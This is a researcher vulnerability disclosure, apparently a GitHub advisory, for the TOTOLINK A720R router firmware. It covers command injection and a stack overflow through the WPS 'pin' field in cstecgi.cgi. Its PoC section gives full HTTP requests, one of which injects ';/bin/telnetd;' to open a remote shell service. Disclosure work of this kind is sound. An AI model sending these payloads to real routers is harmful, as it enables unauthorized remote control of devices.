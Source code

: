 # TOTOLINK Vulnerability

Vendor:TOTOLINK

Product:A720R

Version:A720R_Firmware(V4.1.5cu.470_B20200911)

Type:Stack Overflow & Remote Command Execution

Author:Jiaqian Peng,Huizhao Wang,Zuoguang Wang

Institution:pengjiaqian@iie.ac.cn,wanghuizhao@iie.ac.cn,wangzuoguang16@mails.ucas.ac.cn



## Vulnerability description

We found an vulnerability in TOTOLINK Technology router with firmware which was released recently.In `setWiFiWpsStart` function, `pin` is directly passed by the attacker, so we can control the `pin` to attack the OS or cause the stack overflow.

**Remote Command Execution**

In `cstecgi.cgi` binary:

In `setWiFiWpsStart` function, `pin` is directly passed by the attacker.

<div  align="center"><img src="./images/1.png" style="zoom:80%;" /></div>

As you can see here, there is a **judgment logic** here. If the value of the input character is less than 0x3A, it will be copied to the array(v16). **We can construct the input to fill the /x00 between the two arrays**(v16 and v17), which will cause the sprintf function to copy the contents of the two arrays to the array(v14). Then, the array(v16) as a parameter of system function causes the remote command execution.

**Stack Overflow**

In `cstecgi.cgi` binary:

In `setWiFiWpsStart` function,`pin` is directly passed by the attacker.

<div  align="center"><img src="./images/1.png" style="zoom:80%;" /></div>

As you can see here,The length of the input array(v17) is only 28 bytes, we can tamper with the content of the `pin` field, such as a very long string.After that, it will cause the function return address to be overwritten.

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>

**Supplement**

<div  align="center"><img src="./images/4.png" style="zoom:100%;" /></div>

in the program. In order to avoid such problems, we believe that the string content should be checked in the input extraction part. For example, the length can be limited to only 8 and must be a number.



## PoC

**Remote Command Execution**

We set `pin` as **11111111111111111111;/bin/telnetd;** , and the router will excute it,such as:

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 119
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/advance/wps.html
Cookie: SESSION_ID=2:1591951164:2

{"wifiIdx":"0","wscMode":"1","pin":"11111111111111111111;/bin/telnetd;","wscDisabled":"0","topicurl":"setWiFiWpsStart"}
```

<div  align="center"><img src="./images/5.png" style="zoom:80%;" /></div>

**Stack Overflow**

We set `pin` as **AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB** , it cause the stack overflow:

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 141
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/advance/wps.html
Cookie: SESSION_ID=2:1591952948:2

{"wifiIdx":"0","wscMode":"1","pin":"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB","wscDisabled":"0","topicurl":"setWiFiWpsStart"}
```

<div  align="center"><img src="./images/6.png" style="zoom:80%;" /></div>



## Result

**Remote Command Execution**

The target router has enabled the telnet service.

<div  align="center"><img src="./images/7.png" style="zoom:80%;" /></div>

**Stack Overflow**

The function return address to be overwritten(ra),This may allows attackers to achieve remote code execution.

<div  align="center"><img src="./images/8.png" style="zoom:80%;" /></div>

<div  align="center"><img src="./images/9.png" style="zoom:80%;" /></div>

